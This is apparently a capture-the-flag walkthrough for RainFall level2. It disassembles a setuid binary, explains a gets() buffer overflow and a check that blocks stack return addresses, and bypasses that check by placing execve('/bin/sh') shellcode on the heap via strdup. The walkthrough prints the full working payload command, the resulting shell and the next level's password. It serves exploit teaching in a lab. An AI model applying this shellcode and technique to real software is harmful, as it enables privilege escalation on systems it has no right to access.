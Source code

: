 # Level2

As in level1, we can find an executable waiting for an input, print it and quit after press enter
```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
bla
bla
level2@RainFall:~$
```
After analyze it with radare2 (please refer to [level1](https://github.com/maxisimo/42-RainFall/blob/main/level1/walkthrough.md) if you want more details on the steps to follow)  
We can see that the `main()` function call a function named `p()`.  
- main() :
```
[0x08048420]> s main
[0x0804853f]> pdda
    ; assembly                           | /* r2dec pseudo code output */
                                         | /* level2 @ 0x804853f */
                                         | #include <stdint.h>
                                         |  
    ; (fcn) main ()                      | int32_t main (void) {
    0x0804853f push ebp                  |
    0x08048540 mov ebp, esp              |
    0x08048542 and esp, 0xfffffff0       |
    0x08048545 call 0x80484d4            |     p ();
    0x0804854a leave                     |
    0x0804854b ret                       |
                                         | }
```
- p() :
```
[0x0804853f]> s sym.p
[0x080484d4]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level2 @ 0x80484d4 */
                                                 | #include <stdint.h>
                                                 |  
    ; (fcn) sym.p ()                             | int32_t p (int32_t arg_4h) {
                                                 |     char * src;
                                                 |     int32_t var_ch;
                                                 |     int32_t var_4h;
    0x080484d4 push ebp                          |
    0x080484d5 mov ebp, esp                      |
    0x080484d7 sub esp, 0x68                     |
    0x080484da mov eax, dword [0x8049860]        |     eax = stdout;
    0x080484df mov dword [esp], eax              |
    0x080484e2 call 0x80483b0                    |     fflush (eax);
    0x080484e7 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x080484ea mov dword [esp], eax              |
    0x080484ed call 0x80483c0                    |     gets (eax);
    0x080484f2 mov eax, dword [ebp + 4]          |     eax = *((ebp + 4));
    0x080484f5 mov dword [ebp - 0xc], eax        |     *((ebp - 0xc)) = eax;
    0x080484f8 mov eax, dword [ebp - 0xc]        |     eax = *((ebp - 0xc));
    0x080484fb and eax, 0xb0000000               |     eax &= 0xb0000000;
    0x08048500 cmp eax, 0xb0000000               |
                                                 |     if (eax == 0xb0000000) {
    0x08048505 jne 0x8048527                     |
    0x08048507 mov eax, 0x8048620                |         eax = "(%p)\n";
    0x0804850c mov edx, dword [ebp - 0xc]        |         edx = *((ebp - 0xc));
    0x0804850f mov dword [esp + 4], edx          |         *((esp + 4)) = edx;
    0x08048513 mov dword [esp], eax              |
    0x08048516 call 0x80483a0                    |         printf (eax);
    0x0804851b mov dword [esp], 1                |
    0x08048522 call 0x80483d0                    |         exit (1);
                                                 |     }
    0x08048527 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x0804852a mov dword [esp], eax              |
    0x0804852d call 0x80483f0                    |     puts (eax);
    0x08048532 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x08048535 mov dword [esp], eax              |
    0x08048538 call 0x80483e0                    |     strdup (eax);
    0x0804853d leave                             |     
    0x0804853e ret                               |     return eax;
                                                 | }
[0x080484d4]>
```
Let focus on the `p()` function.  
As in level1, we can see call to `gets()` function with a size of 0x4c (76) wich is vulnerable to buffer overflow attack.
```
    0x080484e7 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x080484ea mov dword [esp], eax              |
    0x080484ed call 0x80483c0                    |     gets (eax);
```
But to get the real size of the buffer we have to add 4 more bytes to reach the return adress (push ebp) => buffer = 80.  
A check is made to make sure we dont overwrite the return address to an adress on the stack
```
    0x080484fb and eax, 0xb0000000               |     eax &= 0xb0000000;
    0x08048500 cmp eax, 0xb0000000               |     if (eax == 0xb0000000) {
		                    
									more code...

	0x08048522 call 0x80483d0                    |         exit (1);
                                                 |     }
```
Due to this check we couldn't point the return address to the stack. This avoids having a shellcode stored on the stack or in environment variable.  
But if we can't use the stack we can use the heap !  
We see in the program that the buffer is later copied inside a strdup. This function use malloc who store the memory in ... the heap.
```
	0x08048538 call 0x80483e0                    |     strdup (eax);
```
We can see that malloc always return the address `0x804a008` :
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                               = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)    = 0xbffff6fc
puts("")                                         = 1
strdup("")                                       = 0x0804a008
+++ exited (status 8) +++
level2@RainFall:~$
```
Now we can try to copy a shellcode in the heap by writing it in the input prompt and then write the allocated address (malloc) on the return address.  
Thanks to internet we'll use some Linux shellcode we found online which will run execve(/bin/sh)  
`\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80`  
Since our shellcode is 26 bytes long we could pad the back with any byte sequence, until 80 bytes then 4 last bytes for the return adress.  
Our final attack buffer will look like :  
- shellcode 			: 26 bytes
- pad of arbitrary data : 54 bytes
- return adress			: 4 bytes
```
level2@RainFall:~$ python -c "print '\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80' + 'a' * 54 + '\x08\xa0\x04\x08'" >/tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
11Qh//shh/bin1��
               ̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
whoami
level3
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
^C
level2@RainFall:~$ su level3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$
```
Level2 passed!
